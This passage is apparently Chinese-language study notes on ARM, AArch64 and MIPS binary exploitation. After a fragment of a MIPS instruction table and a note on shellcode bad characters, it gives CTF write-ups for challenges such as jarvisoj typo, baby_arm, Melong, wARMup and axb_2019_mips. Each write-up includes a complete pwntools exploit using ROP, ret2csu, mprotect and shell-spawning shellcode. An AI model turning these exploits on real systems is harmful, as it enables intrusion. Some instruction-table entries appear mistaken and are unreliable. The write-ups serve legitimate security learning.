|  DSLLV   | 可变的双字逻辑左移                                           | DSLLV R1,R2,#2    |
|  DSRLV   | 可变的双字罗伊右移                                           | DSRLV R1,R2,#2    |
|  DSRAV   | 可变的双字算术右移                                           | DSRAV R1,R2,#2    |
|   SLT    | 如果R2的值小于R3，那么设置R1的值为1，否则设置R1的值为0       | SLT R1,R2,R3      |
|   SLTI   | 如果寄存器R2的值小于立即数，那么设置R1的值为1，否则设置寄存器R1的值为0 | SLTI R1,R2,#23    |
|   SLTU   | 功能与SLT一致，但是带符号的                                  | SLTU R1,R2,R3     |
|  SLTUI   | 功能与SLT一致，但不带符号                                    | SLTUI R1,R2,R3    |
|   MOVN   | 如果第三个寄存器的内容为负，那么复制一个寄存器的内容到另外一个寄存器 | MOVN R1,R2,R3     |
|   MOVZ   | 如果第三个寄存器的内容为0，那么复制一个寄存器的内容到另外一个寄存器 | MOVZ R1,R2,R3     |
|   TRAP   | 根据地址向量转入管态                                         |                   |
|   ERET   | 从异常中返回到用户态                                         |                   |
|  MADD.S  | 一个双精度浮点数与单精度浮点数相乘加，结果为单精度           |                   |
|  MADD.D  | 一个双精度浮点数与单精度浮点数相乘加，结果为双精度           |                   |
| MADD.PS  | 两个单精度浮点数相乘加，结果为单精度                         |                   |

## shellcode 开发

### 优化

有时 shellcode 内会含有 `\x00` ，换行，空格等坏字符，就造成输入或者复制等操作不能录入完整的 shellcode ，在坏字符处提前停止。

优化方法两种：指令优化和 shellcode 编码。指令优化就用无坏字符指令替代，重在积累。

编码算法主要是：BASE64、alpha_upper、xor，后两种比较容易实现常用。


# 入门实战

## jarvisoj - typo

### 基本情况

只打开 nx 保护，静态链接程序，没有符号表。``qemu-arm ./typo`` 启动看看，是个打字程序，打字界面存在溢出。

ida 加载后搜索字符串，发现有 /bin/sh 和 system 。用 rizzo 提取 libc 符号表后导入到程序还原出 system 地址。

找 gadget 第一个参数在 r0 ，下一条命令在 pc ，找到 gadget ``pop_r0_r4_pc`` 。栈布局如下：

```
+-------------+
|             |
|  padding    |
+-------------+
|  padding    | <- frame pointer
+-------------+ 
|gadgets_addr | <- return address
+-------------+
|binsh_addr   |
+-------------+
|junk_data    |
+-------------+
|system_addr  |
+-------------+
```

本地调试用 gdb 的 cycli 功能得出溢出长度：

```
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> c
Continuing.

……
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
Invalid address 0x62616164
……

pwndbg> cyclic -l 0x62616164
112
```

字符串输入不能和 amd 架构可以边调试边输入，要用脚本输入。最后得出 padding 112 。

### EXP

```python
from pwn import *
import sys
context.binary = "./typo"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "./typo"])
else:
    #p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabi", "./typo"])
    #p = process(['qemu-arm',"-g","1234","./typo"])
    p = process(['qemu-arm',"./typo"])
elf = ELF("./typo")
libc = ELF("/usr/arm-linux-gnueabi/lib/libc.so.6")

pop_r0_r4_pc = 0x00020904
str_binsh = 0x0006c384
system = 0x000110B4
padding = 112
payload = 'a'*padding + p32(pop_r0_r4_pc) + p32(str_binsh)*2 + p32(system)

p.sendlineafter("quit",'')
# p.sendline("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
sleep(1)
p.sendline(payload)

p.interactive()
```

## 2018 上海市大学生网络安全大赛 - baby_arm

### 基本情况

Aarch64 架构只打开 nx 保护，是个动态连接的程序，qemu 启动要用 -L 指定运行库：``qemu-aarch64 -L /usr/aarch64-linux-gnu ./pwn``


程序一共两次输入，第一次是输入到 bss 段，第二次存在栈溢出。

看一看栈溢出部分汇编，aarch64 栈分布与 x86 有点不一样：

```
var_50          = -0x50
STP             X29, X30, [SP,#var_50]!;压栈将x29x30压入sp-0x50，之后将sp更新为sp-0x50
MOV             X29, SP;新栈基地址
ADD             X0, X29, #0x10;x0=x29-0x10
MOV             X2, #0x200 ; nbytes
MOV             X1, X0  ; buf
MOV             W0, #0  ; fd
BL              .read
NOP
LDP             X29, X30, [SP+0x50+var_50],#0x50;出栈
RET
```

这里栈溢出的话不能修改 sub_4007F0 的 rip ，修改的是上层函数的返回地址。利用 mprotect 给 bss 写入位置加上运行权限。mprotect 需要 3 个参数，对应 x0-x3 寄存器，ROPgadget 没有找到合适的。

### ret2csu

在 start 函数中找到 init 函数：


结构体和 x86 的差不多：





0x4008CC 开始从栈上提取值到寄存器，读懂寻址方式就行。栈溢出填充变量后马上调用 0x4008CC 变量在内存布局如下：

| 内存地址 | 内存布局 | 备注    |
| :------: | :------: | ------- |
|    低    |    ……    | padding |
|          |    ……    | Rbp     |
|          | 0x4008CC | Rip     |
|          |   X29    |         |
|          |   X30    |         |
|          |   X19    |         |
|          |   X20    |         |
|          |   X21    |         |
|          |   X22    |         |
|          |   X23    |         |
|    高    |   X24    |         |
|          |          |         |

然后就是 0x4008AC 给参数寄存器赋值并调用函数：

```
LDR             X3, [X21,X19,LSL#3]
MOV             X2, X22
MOV             X1, X23
MOV             W0, W24
ADD             X19, X19, #1
BLR             X3
CMP             X19, X20
B.NE            loc_4008AC
```

1. 执行`LDR X3,[X21,X19,LSL#3]`，那么此句汇编的意义是，将X19的值逻辑左移(Logical Shift Left)三位后加上X21的值，**取其所指向的值**存储在X3寄存器中。控制 x19 为 0 ，就变成 ``LDR X3,[X21]`` 。

2. 把 X22 寄存器的值作为第三个参数 x2 ；把 X23 寄存器的值作为第二个参数 x1 ；把 X24 寄存器的值（低32位）作为第一个参数 x0 ；

3. 给 X19 寄存器的值加一，调用 X3 寄存器**所指向**的函数，也就需要找个已知地址的地方写入 plt 。
4. 比较 x19 和 x20 ，不相等就再次调用 0x4008AC ，所用 x20 控制为 1 。

最后得出对照表：

| 内存地址 | 内存布局 | 备注                     |
| :------: | :------: | ------------------------ |
|    低    |    ……    | padding                  |
|          |    ……    | Rbp                      |
|          | 0x4008CC | Rip                      |
|          |   X29    |                          |
|          |   X30    |                          |
|          |   X19    | 固定值：0                |
|          |   X20    | 固定值：1                |
|          |   X21    | 存储调用函数地址：X3     |
|          |   X22    | 第三个参数：X2           |
|          |   X23    | 第二个参数：X1           |
|    高    |   X24    | 第一个参数：W0(X0低32位) |

修改完权限之后还需要调用在 bss 段上的 shellcode ，就在上面 payload 上再加调用就行了，得出最后的 payload ：

```python
payload = 'A' * 0x40 
payload += p64(0xdeadbeef)              # X19
payload += p64(0x4008CC)                # X20

payload += p64(0xdeadbeef)               # X29
payload += p64(0x4008AC)                 # X30
payload += p64(0) + p64(1)               # X19 , X20
payload += p64(0x411068 + 0x100)         # X21
payload += p64(0x7)                      # X22
payload += p64(0x1000)                   # X23
payload += p64(0x411000)                 # X24

payload += p64(0xdeadbeef)               # X29
payload += p64(0x411068)                 # X30
payload += p64(0) * 0x6                  # X19 - X24
```

### EXP

```python
from pwn import *
import sys
context.binary = "./pwn"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
else:
    p = process(["qemu-aarch64", "-g", "1234", "-L", "/usr/aarch64-linux-gnu", "./pwn"])

elf = ELF("./pwn")
libc = ELF("/usr/aarch64-linux-gnu/lib/libc.so.6")

shell_code = asm(shellcraft.sh())
shell_code = shell_code.ljust(0x100,'\x90')
shell_code = shell_code + p64(elf.plt['mprotect'])

payload = 'A' * 0x40 
payload += p64(0xdeadbeef)              # X19
payload += p64(0x4008CC)                # X20

payload += p64(0xdeadbeef)               # X29
payload += p64(0x4008AC)                 # X30
payload += p64(0) + p64(1)               # X19 , X20
payload += p64(0x411068 + 0x100)         # X21
payload += p64(0x7)                      # X22
payload += p64(0x1000)                   # X23
payload += p64(0x411000)                 # X24

payload += p64(0xdeadbeef)               # X29
payload += p64(0x411068)                 # X30
payload += p64(0) * 0x6                  # X19 - X24

p.recvuntil("Name:")
p.sendline(shell_code)
sleep(0.5)
p.sendline(payload)

p.interactive()
```

## root_me_stack_spraying

### 基本情况

32 位 arm 架构动态链接程序，打开 nx 保护。存在 scanf 函数栈溢出漏洞。通过调试测试得出溢出 0x44 后，就能控制 pc 寄存器。


程序中有后门函数：


ROPgadget 查询如下：

```
Gadgets information
============================================================
0x00010634 : pop {fp, pc}
0x0001055c : pop {r0, r1, r4, r8, fp, ip, sp, pc}
0x000103f8 : pop {r3, pc}
0x000105b0 : pop {r4, fp, pc}

Unique gadgets found: 4
```

结合 main 函数中 scanf 附件汇编指令，利用 pop_r3_pc 这个 gadget 可以控制 scanf 实现任意地址写。


程序中现成有 system ，这里就向 bss 写入 ``/bin/sh\x00`` 作为参数调用。然后就是控制 r0 的值，先用 gadget 控制 r3 的值，接着将程序控制到 ``0x1067c`` 从而控制 r0 。

程序劫持到 ``0x1067c`` 之后就会一直执行下去，遇到 ``0x10684`` 的话就会从 r11 上取值给 pc 而不是用 bss 段上的数据，所以这里还需要提前向 r11 写入一个存储着 exec 函数地址的地址，这个在写入 bss 时一起实现。两段 payload 分别是：

```python
payload1 = 'a'*(padding-4) + p32(elf.bss() + 0x300)
payload1 += p32(pop_r3_pc)
payload1 += p32(elf.bss() + 0x300-0x4*3)  # R3:write address
payload1 += p32(main_scanf)

payload2 = "/bin/sh\x00" + p32(elf.sym['exec'])
payload2 += p32(pop_r3_pc) + p32(elf.bss() + 0x300-0x4*3) + p32(0x0001067C)
payload2 += p32(elf.bss() + 0x300-0x4) + p32(0x0001067C)
```

实际调试时发现 exec 前面几条函数会覆盖 ``/bin/sh\x00`` 前面的四个字节，不过问题不大，将其修改为 ``xxxx;sh\x00`` 即可。

### EXP

```python
from pwn import *
import sys
context.binary = "./root_me_stack_spraying"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./root_me_stack_spraying"])
else:
    p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf", "./root_me_stack_spraying"])

elf = ELF("./root_me_stack_spraying")
libc = ELF("/usr/arm-linux-gnueabihf/lib/libc.so.6")

pop_r3_pc = 0x000103f8
pop_r11_pc = 0x00010634
padding = 0x44
main_scanf = 0x0001065C

#payload1 = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
payload1 = 'a'*(padding-4) + p32(elf.bss() + 0x300)
payload1 += p32(pop_r3_pc)
payload1 += p32(elf.bss() + 0x300-0x4*3)  # R3:write address
payload1 += p32(main_scanf)         

p.recvuntil(":\n")
p.sendline(payload1)

log.info("bss:"+hex(elf.bss()))
log.info("bss:"+hex(elf.sym['exec']))

# payload2 = "/bin;sh\x00" + p32(elf.sym['exec'])
# payload2 += p32(pop_r3_pc) + p32(elf.bss() + 0x300-0x4*3) + p32(pop_r11_pc)
# payload2 += p32(elf.bss() + 0x300-0x4) + p32(0x0001067C)
payload2 = "skye;sh\x00" + p32(elf.sym['exec'])
payload2 += p32(pop_r3_pc) + p32(elf.bss() + 0x300-0x4*3) + p32(pop_r11_pc)
payload2 += p32(elf.bss() + 0x300-0x4) + p32(0x0001067C)

sleep(0.2)
p.sendline(payload2)

p.interactive()
```


## Codegate2018_Melong

1. 分析压栈变量个数
2. 分析rop返回位置
3. libc静态加载特性

### 基本情况

32位ARM动态链接程序，仅开启NX保护。

程序是一个 BMI 计算器，在 write_diary(len, addr); 存在栈溢出，长度实际上是经过 PT 函数计算 check 函数输入的身高体重数据后，得出的 BMI 指数，addr 对应是 main 函数中的局部变量。

PT 函数挺奇特的，如果需要控制返回值为输入的 size 就需要满足 if 条件。exc2 一直都没有赋值为 0 ，所以需要利用 malloc 申请失败返回 null 。因此这里输入 -1 ，将返回值设置为 -1 。


在 PT 中 size 数据类型为 size_t ，在 write_diary 用 unsigned int 存储原本 -1 变成非常大的数，造成栈溢出。


### 思路

和 x86 架构下 ret2libc 的思路一样，只是不同架构 payload 需要调整。

padding 长度和 x86 一样，可以在 ida 中看出来是 50+4 ：


**注意在 arm 程序没有 ebp 这个位置的填充**，具体可以从汇编分析得出：

```
PUSH    {R11,LR};将R11+LR指向的内容压栈
ADD     R11, SP, #4;
SUB     SP, SP, #0x50;栈顶向低地址移动0x50
LDR     R3, =stdin__GLIBC_2.4;函数体开始
……
```

只有 R11 一个寄存器压栈了，所以 padding 应该为：50+4

ROPgadget 能找到合适的 gadget ：``0x00011bbc : pop {r0, pc}`` ，泄露 libc ：

```python
payload = padding+p32(gadget)+p32(got)+p32(plt)
```

返回 main 函数无论怎么搞都返回不了。但是**发现 libc 是静态加载的，两次泄露地址都是一样的**，所以直接调用 system :

```python
payload = padding+p32(gadget)+p32(binsh)+p32(system)
```

### EXP

```python
from pwn import *
import sys
context.binary = "./melong"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "./melong"])
else:
    p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabi", "./melong"])

elf = ELF("./melong")
libc = ELF("/usr/arm-linux-gnueabi/lib/libc.so.6")

#libc_base = 0xff6b6f98 - libc.symbols['puts']
libc_base = 0xff6bb770 - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + libc.search('/bin/sh').next()

#payload  = 'A' * 0x54 + p32(0x00011bbc) + p32(elf.got['puts']) + p32(elf.plt['puts'])#+p32(elf.sym['main'])*2
payload  = 'A' * 0x54 + p32(0x00011bbc) + p32(bin_addr) + p32(system_addr)

p.recvuntil('Type the number:')
p.sendline('1')
p.recvuntil('Your height(meters) : ')
p.sendline('1')
p.recvuntil('Your weight(kilograms) : ')
p.sendline('1')
p.recvuntil('Type the number:')
p.sendline('3')
p.recvuntil('How long do you want to take personal training?')
p.sendline('-1')
p.recvuntil('Type the number:')
p.sendline('4')
p.sendline(payload)
p.recvuntil('Type the number:')
p.sendline('6')

p.interactive()
```

## inctf2018_wARMup

### 基本情况

32 位动态链接 arm 程序只打开了 nx 保护，存在 0x10 字节溢出。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[104]; // [sp+4h] [bp-68h] BYREF

  setvbuf((FILE *)_bss_start, 0, 2, 0);
  puts("Welcome to bi0s CTF!");
  read(0, buf, 120u);         // 溢出0x10
  return 0;
}
```

长度是足够完成 ret2libc 操作，但是没有控制 r0 的 gadget ：


这里思路是利用现有 gadget 控制 r3 为 bss 段上地址,利用 main 函数本身汇编代码调用 read 将 shellcode 写入到 bss 上。


构造写入 payload 问题不大：

```python
payload = 'a'*104+p32(pop_r3_pc)+p32(elf.bss()+0x100)+p32(main_read)
```

问题是在再次控制程序流到 bss 上，执行 shellocde 。这里通过调试发现 armeabi（32位arm）出栈时使用的汇编 ``pop    {fp, pc}`` （fp和r11是同一个寄存器）给 pc 赋值。这句汇编是**将 fp 指向地址的值赋给 pc** ，而这个 fp 类似于 ebp ，pc 等于 eip 。


> 这里截图使用下面的 payload ，也就是 r11 的值是 bss+0x100

如果我们用上面这个 payload 去打，当利用 main 函数内汇编调用完 read 后会继续运行到 main 结尾，也就是会再次调用 mian 结尾的出栈流程。由于之前 fp 被赋值为 ``aaaa`` ，所以程序会 ``pop [fp,pc}`` 处报错，因为 0x61616161 不存在。



我们就利用这一点将 fp 覆盖为 bss 段，实现调用：

```python
payload = 'a'*100+p32(elf.bss()+0x100)+p32(pop_r4_pc)+p32(elf.bss()+0x100)+p32(main_read)
```

### EXP

> 迁移完，要Shellcode 前面加个地址跳转

```python
from pwn import *
import sys
context.binary = "./wARMup"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./wARMup"])
else:
    p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf", "./wARMup"])

elf = ELF("./wARMup")
libc = ELF("/usr/arm-linux-gnueabihf/lib/libc.so.6")

padding = 100#104
pop_r3_pc = 0x00010364
main_read = 0x00010530

# payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
payload = padding*'a'+p32(elf.bss()+0x100)
payload += p32(pop_r3_pc)+p32(elf.bss()+0x100)+p32(main_read)
shellcode = asm(shellcraft.sh())

p.recvuntil("!\n")
p.send(payload)
sleep(0.5)
p.send(p32(elf.bss()+0x100+0x4)+shellcode)

p.interactive()
```

## root_me_stack_buffer_overflow_basic

### 基本情况

32 位动态链接 arm 程序，存在 scanf 函数溢出，程序自身泄露栈地址。

程序功能是可以重复向局部变量上写入，由于输入函数采用 scanf 长度被我们所控制。

思路是先获取程序泄露的栈地址，然后写入 shellcode 控制 pc 跳转执行。这里用 cycli 测出来的 padding 是 0x50 ，实际调试发现需要填充 0x54 ，0x50-0x54 被填充在 r11 (fp) 。

### EXP

```python
from pwn import *
import sys
context.binary = "./root_me_stack_buffer_overflow_basic"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./root_me_stack_buffer_overflow_basic"])
else:
    p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf", "./root_me_stack_buffer_overflow_basic"])

elf = ELF("./root_me_stack_buffer_overflow_basic")
libc = ELF("/usr/arm-linux-gnueabihf/lib/libc.so.6")

shellcode = asm(shellcraft.sh())

p.recvuntil(":\n")
p.sendline("skye")
p.sendline('Y')
stack_addr = int(p.recv(10),16)
log.info("stack_addr:"+hex(stack_addr))

payload = shellcode.ljust(0xA0,'\x90') + p32(0xdeadbeef) + p32(stack_addr)
#payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"

p.recvuntil(":\n")
p.sendline(payload)
sleep(0.2)
p.sendline('n')

p.interactive()
```

## axb_2019_mips

> 题目源码：[:link:](https://github.com/D0g3-Lab/i-SOON_CTF_2019/blob/master/Pwn/mips)

### 基本情况

qemu-mipsel运行，提示缺少库，最快速的解决方法是下载现成的库，省去自己编译。Mipsel的uclibc库在这里https://github.com/MonkeyJacky/mipsel-linux-uclibc

vuln 函数里存在栈溢出。

$fp寄存器的值，在我们溢出后函数结束时，就会被栈里的值覆盖，因此,$fp可控，从而$v0可控，从而$a1可控。而$a0、$a2也在代码里控制住了。因此,我们让$a1指向bss段，从而可以向bss段输入shellcode。当read结束后, move  $sp, $fp指令会使得栈发生迁移，我们在bss段的shellcode前面放置shellcode的地址，，这样shellcode的地址就会被放入到$ra寄存器，进而可以ret到shellcode。

### EXP

```python
#encoding:utf-8
from pwn import *
import sys
context.binary = "pwn2"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("node3.buuoj.cn", 28110)
elif sys.argv[1] == "l":
    p = process(["qemu-mipsel", "-L", "/usr/mipsel-linux-uclibc", "pwn2"])
else:
    p = process(["qemu-mipsel", "-g", "1234", "-L", "/usr/mipsel-linux-uclibc", "pwn2"])

elf = ELF("pwn2")
libc = ELF("/usr/mipsel-linux-uclibc/lib/libc.so.0")

padding = 36
bss = 0x410B70
text_read = 0x4007E0

p.recvuntil("What's your name:")
p.sendline("skye")
p.recv()

log.info("bss:"+hex(elf.bss()))

shellcode = asm(shellcraft.sh())
#ret2shellcode
payload = 'a'*(padding-4)
#fp
payload += p32(bss + 0x200 - 0x18)
#调用read向bss段输入shellcode，然后ret到bss段
payload += p32(text_read)
 
p.send(payload)
 
sleep(0.1)
payload = 'a'*0x24     #12
payload += p32(bss + 0x200 + 0x28)
payload += shellcode
p.send(payload)
'''
sleep(0.2)

# gadget1
payload = 'a'*padding
payload += p32(0x004006C8)

#payload += p32(elf.plt['puts'])	# fp
payload += p32(1)

payload += "a" * 0x18
payload += 'a' * 4 # s0
#payload += p32(elf.got['puts']) # s1
payload += p32(0x00410B58)
payload += p32(0x0040092C) # s2


payload += 'a' * 4 # s3
payload += p32(0x004007A4) # ra


payload += 'a'*0x20
payload += p32(0x004007C4)

sleep(0.2)
p.send(payload)

p.recv()
#success(a)
libc_addr = u32(p.recv(4))-libc.symbols['puts']

success("libc_addr: " + hex(libc_addr))

p.recv()
#p.send(payload)
system_addr = libc_addr + libc.symbols['system']
binsh_addr = libc_addr + 0x9bc48


# gadget2
payload = 'a'*0x24
payload += p32(0x004006C8)

payload += 'a'*0x1c
payload += 'a'*4 #s0
payload += p32(binsh_addr)
payload += p32(system_addr)
payload += 'a'*4
payload += p32(0x004007A4)

p.send(payload)
'''

p.interactive()
```


# 参考文章

* [mips&arm&aarch64-pwn初探](https://blog.csdn.net/seaaseesa/article/details/105281585)
* [arm - ROP](https://ctf-wiki.org/pwn/linux/arm/arm_rop/)
* [如何 pwn 掉一个 arm 的binary](https://m4x.fun/post/how-2-pwn-an-arm-binary/)
* [MIPS 环境搭建及调试](https://www.lyyl.online/2020/10/09/MIPS-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%8F%8A%E8%B0%83%E8%AF%95/)


